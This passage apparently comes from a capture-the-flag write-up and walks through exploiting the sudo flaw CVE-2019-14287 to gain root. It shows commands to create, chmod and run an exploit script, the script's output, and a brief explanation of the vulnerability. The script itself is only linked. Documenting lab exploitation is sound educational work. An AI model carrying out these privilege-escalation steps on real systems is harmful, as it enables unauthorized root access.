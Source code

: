 To gain further access to the system by exploiting a vulnerability in `sudo` (CVE-2019-14287), the following steps were carried out:

-    **1. Create the Exploit Script**  
      The exploit script `exploit.sh` was created with the following command:

      ```bash
      nano exploit.sh
      ```

<br>

-    **2. List Directory Contents**  
      The contents of the current directory were listed to verify the presence of the script and other files:

      ```bash
      ls
      ```

      Output:

      ```bash
      Alien_autospy.jpg  exploit.sh  user_flag.txt
      ```
<br>

-    **3. Change Script Permissions**  
      The script was made executable by changing its permissions:

      ```bash
      chmod 777 exploit.sh
      ```
<br>

-    **4. Run the Exploit Script**  
      The script was executed to attempt the privilege escalation:

      ```bash
      ./exploit.sh
      ```

      Output:

      ```bash
      [-] This user has sudo rights
      [-] Checking sudo version
      [-] This sudo version is vulnerable
      [-] Trying to exploit
      ```
<br>

## ***[`Exploit`](/scripts/shell/exploit.sh) Description***

The exploit targets a vulnerability in the `sudo` command known as **CVE-2019-14287**. This vulnerability occurs when specific configurations in `sudo` allow a user with limited privileges to execute commands as `root`, bypassing typical security restrictions.

